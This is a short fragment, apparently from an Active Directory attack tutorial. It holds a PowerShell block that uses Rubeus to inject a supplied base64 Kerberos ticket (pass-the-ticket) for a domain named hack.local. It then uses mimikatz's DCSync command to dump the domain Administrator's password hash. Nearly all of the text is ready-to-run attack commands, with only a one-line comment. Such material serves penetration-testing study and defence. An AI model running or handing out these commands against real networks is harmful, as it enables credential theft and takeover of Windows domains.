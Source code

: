```powershell
Rubeus.exe ptt /ticket:doIE5DCCBOCgAwIBBaEDAgEWooID9DCCA/BhggPsMIID6KADAgEFoQwbCkhBQ0suTE9DQUyiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkhBQ0suTE9DQUyjggOwMIIDrKADAgESoQMCAQKiggOeBIIDmprRYFAlBgv4kCHkTWTg+0UWmCfmJfaeWv8vDqhDv3aVI1xh5Wy32A mmuFZpdOLjrn8lYsgm3CMBrqy6paJWkZ+pGVY3CLOpi6APpwwLDdxTHHHEM7eyUXuGSusXuV5Tki33hUIJavrcc26ik4uvlYYe3wZTVT3NxTioEY0bDywYHBqV649Oy85CFM022Khbg2mwb04CjLn7wHBgavmdLqC+LW5Z1/DjEEvSijDyXIH8LCgneZ8UW4D/KoTbfZp1JhisWNUIb Fcjoj0Kw8h/jnjpSfOnieNH01H84Q9pHjhD8n4QWw8jrYM1kLRwdV/dLh8buph7eY6ExSzv7tsBV5+T7knitJnRq9TKdZqQENTulDh8ESh4nHPj0D5z/3kGzl8UaW6vAf1137YicsrGtCQwqvnKpe/TsBn1N5V/pyj+7eXI1gKm6+AtPaaTQcCpQfWZe8cqorPjxviMfhDSyVfCyKD CZYo4VfVwAXAdB+2xCKfHkqh+wIDMsPDMk4jjAnVM3HObfT5mJEyikj1NOak+/Y4ARkxz/qcSq3RmutVTOWF4V5vzz4Jg9BFQjVJZrRLGck0dsFBqPz5xPGuUH0h1M+1+vRVba9Yh4ZmIk+TCnqmhaFWVP173O2bhBXA5m2kSJjZrjqQ8TP+ZSIuKp+cEZ9GO0k2Xs52dSw/C2+26aS zcZzGyRd7V400U8TIDtPPhJxU/85hW2l7bWzMPmuGp621SIcVwt2tVsrHCsXVoZyu/rj3ZGS3OupZBJMDbudDlrCneH4JHiV9Df3kz4aDV0hG8Azl+q56QByZSv/FcWx/TM1tIOCphcpQA1m2Bv95fdbxWlgzUPwjZ+BLuVyobS0vpaJQhS2vvFq7TbYj9H7NfjEAbJwHs1FCpKHRm FWXQvQiDvPNvTnZ6Ea1WiHT8pH8NtNtct0heM5rJI05IVmsiNgVM6qTUUZRvTZObpdHxusF882kVXvqaRMn+seZnBf916jBGqqVN5Z7IENMxQAdVJwfXAvePBW5DRKozE1Hhr8af3AD8WK+3B7nelD0IEYRJLgBPx9lXETC00tArUL8KSwNXFgJtunzz3DoQhJNKt+Y5yCxYJz7UTLa a/JG9cguIHHAHV6T07jdHjKvU1VLqkOK5SmEtvgK6J6tuZ+iWPNR9v/fAYBmF0tECd/vseShk52bBCpnxsalw9lZ3h4kj1vROQYfghCpuBZUwszMT2XhpHSQHKH2jgdswgdigAwIBAKKB0ASBzX2ByjCBx6CBxDCBwTCBvqArMCmgAwIBEqEiBCCUEXzAfBCpb/UDPr8oSeLBb/1le Zz9QgQ2K5m2/ULfM6EMGwpIQUNLLkxPQ0FMohAwDqADAgEBoQcwBRsDREMkowcDBQBgoQAApREYDzIwMjMxMjEzMDUzOTI2WqYRGA8yMDIzMTIxMzE1MzkyNlqnERgPMjAyMzEyMTgxNTM3NDRaqAwbCkhBQ0suTE9DQUypHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkhBQ0suTE9DQUw=

# mimikatz exports user Hash in the domain
mimikatz.exe "lsadump::dcsync /domain:hack.local /user:HACK\Administrator" "exit"
```

![](./images/10.png#pic_center)
